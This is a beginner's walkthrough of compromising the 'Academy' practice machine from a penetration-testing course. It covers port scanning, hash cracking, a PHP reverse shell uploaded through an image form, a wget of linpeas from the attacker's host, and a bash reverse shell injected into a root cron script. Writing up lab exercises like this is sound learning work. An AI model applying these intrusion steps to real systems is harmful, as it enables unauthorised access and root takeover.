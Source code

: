 # ACADEMY

It was gotten as I was studying the practical ethical hacking course on TCM ACADEMY. This writeup will be a walkthrough on it. I ran it on a virtual machine to get the IP of the machie.

Advice to beginners just like me, I won't advise you follow this walkthrough back to back as it will not really help you progress well in your journey. You can just come here to check when you get stuck and have tried all possible things you know before.

First we load our machine and get our IP address. For that we use the command ```ip a``` and we copy our IP address. That will be the target IP. 

![image](https://github.com/Bangis041/academy-/assets/74382096/9c438e88-5791-4089-83fe-921446e9cc60)

We start by scanning for ports to see which ports are opened and vulnerable. For this, I did a nmap scan with SYNTAX: ```nmap -A -p- IP```

![image](https://github.com/Bangis041/academy-/assets/74382096/3d764b7f-820c-41d3-b1d1-34811b658b62)

From the scan above, we can see we had a number of opened ports. Port 21 looked interesting since it's the first and had some content we would like to view.

For us to check that out, we use ```ftp IP``` and then we are able to list what files are there.

![image](https://github.com/Bangis041/academy-/assets/74382096/d07f7c83-9256-4046-a6b6-6cf56a21cb1e)

Here we downloaded the note.txt file and saw some intersting information that might be helpful eventually.

After that, we check out the next port that might matter to us. SSH is not it so we move down to port 80 which is a webserver.

After loading the website, there was no much information. we only knew what technology was behind it.

![image](https://github.com/Bangis041/academy-/assets/74382096/53b38ac7-4519-4202-90c5-ca4b81d25de3)

Here we proceed to using a directory buster. I will be using gobuster in this case. SYNTAX: ```gobuster dir -u http://IP -w wordlist_file/path```.

![image](https://github.com/Bangis041/academy-/assets/74382096/bdcf9185-6b31-4618-b9a2-1d6e827a3332)

Afer scanning we were able to get two directories. One interests me more and that is ```/academy```. Why? I saw something that has to do with student in the note.txt file we saw from FTP. Now we search for http://IP/academy. After loading, we get to see a login page that requires us to use a REG NO and password. I did that using the information from the note.txt and i got an error

![image](https://github.com/Bangis041/academy-/assets/74382096/3282bcab-4f23-4414-895c-ded129a73056)

so i looked at the password again and realized it was not a password but a hash. Most students use weak passwords😂. I simply used https://crackstation.net to crack the password and it was "student" so i logged in and said to myself "I'm IN !!!" hehe.

![image](https://github.com/Bangis041/academy-/assets/74382096/64a793e0-cdc9-4e1b-8199-4617a0b93152)

After getting in, the only interesting thing here was that there was a place to upload images. Good news is that not only images can be uploaded there, .php files could also be uploaded. I used that to my advantage to get a reverse shell. I simply searched on google fpr php reverse shell. I copied the code into a file, activated a listener and uploaded the file and I WAS IN ONCE AGAIN😂. It was almost a dead end so i used an automation tool i learned about on https://tryhackme.com/r/room/linprivesc. Just search 'linpeas' on google. I found the script, 

![image](https://github.com/Bangis041/academy-/assets/74382096/2437bec1-dff5-49ae-9557-dd9d001422cb)

i copied and pasted in a .sh file i named linpeas. Now i have to transfer the file to the shell by hosting a webserver ad using wget. I used ```wget http://MY_IP/file```

![image](https://github.com/Bangis041/academy-/assets/74382096/040247fa-141e-4d1f-ab19-828aaee7d1f8). 

Now is time to change the permission to make it executable and then run!!!. 

![image](https://github.com/Bangis041/academy-/assets/74382096/269bb845-d796-4154-81b7-ddd10c3906ee)

We were given what to look out for also...made work easier. While scrolling through, I was able to get this...```* * * * * /home/grimmie/backup.sh``` and also this 👇

![image](https://github.com/Bangis041/academy-/assets/74382096/a4edae2d-e509-426d-990c-a40d80c03c68) and also a password that kept repeating itself in multiple instances. I think now is time i use port 22 which is SSH since we have confirmed that Grimmie is a user and we have a possible password. SYNTAX for SSH: ```ssh user@IP``` and guess what again guys...I'm in🥱. 

![image](https://github.com/Bangis041/academy-/assets/74382096/481ae434-82a8-40db-bdd9-f84eac966f9d)

Now it's looking like it's a dead end after trying ```sudo -l```. I checked the content of backup.sh and realised it's supposed to run at some point. Crontabs did not work so i used ps aux to list processes and we can see it is running as root user.

![image](https://github.com/Bangis041/academy-/assets/74382096/94de302c-2c28-410a-b51c-a7f04ad8f0ee). 

From here, we head over to google.com as it is out best friend to ask it asbout "bash reverse shell one liner" and we see a link on pentestmonkey. 

![image](https://github.com/Bangis041/academy-/assets/74382096/319e4683-a49a-43a1-82a7-01a53a3994f6)

We get a command to use to get a shell...Let's try it and see what comes.

![image](https://github.com/Bangis041/academy-/assets/74382096/17267a78-6af2-4561-85c6-37bd8fb39fd1).

For this to work, we have to set up a listener on our machine and specify the port we are listening on. For me it is 5678.

![image](https://github.com/Bangis041/academy-/assets/74382096/198043da-f221-4a9a-b9eb-19b27c9805e3).

We then wait for it to run, I waited for about 28seconds and I AM IN!!!!!

![image](https://github.com/Bangis041/academy-/assets/74382096/5203fc05-b3bb-44bf-8590-abcfcb7113e3)

Just find the flag and cat it out. 

![image](https://github.com/Bangis041/academy-/assets/74382096/b87492b2-0a0e-47d5-b436-275268df8453)

There my friends was how I was able to pwn the ACADEMY machine.
